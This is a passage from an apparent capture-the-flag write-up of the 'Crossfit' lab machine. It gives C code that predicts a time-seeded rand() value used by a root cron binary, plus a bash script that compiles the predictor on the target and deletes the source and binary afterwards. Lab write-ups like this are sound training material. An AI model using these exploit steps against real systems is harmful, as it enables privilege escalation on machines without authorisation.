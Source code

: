 ```c
}
```

It queries the from from message table, then opens a zip file called `/var/backups/mariadb/comments.zip`.

The binary reverse is interesting, but this is overstudy to OSWE.

Program to predict the random number used by the binary:
```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>


int main() {

    time_t now = time(NULL);
    time_t next = now - (now % 60) + 61;
    printf("[*] Current timestamp:    %d\n", now);
    printf("[*] Next cron will be at: %d\n", next);

    srand(next);
    printf("[+] Randon num at next:   %d\n", rand());

    return 0;
}
```

Because we want to run on the Crossfit machine, we need to compile on it.
```bash
#/bin/bash

cat > /var/tmp/d.c <<'EOF'
#include <stdio.h>
#include <time.h>
#include <stdlib.h>


int main() {

    time_t now = time(NULL);
    time_t next = now - (now % 60) + 61;
    srand(next);
    printf("%d\n", rand());

    return 0;
}
EOF

echo '[*] Writing c code to get "random" int'
gcc -o /var/tmp/d /var/tmp/d.c
randint=$(/var/tmp/d)
echo "[+] Got random int: $randint"
echo "[*] Cleaning up code"
rm /var/tmp/d /var/tmp/d.c
```
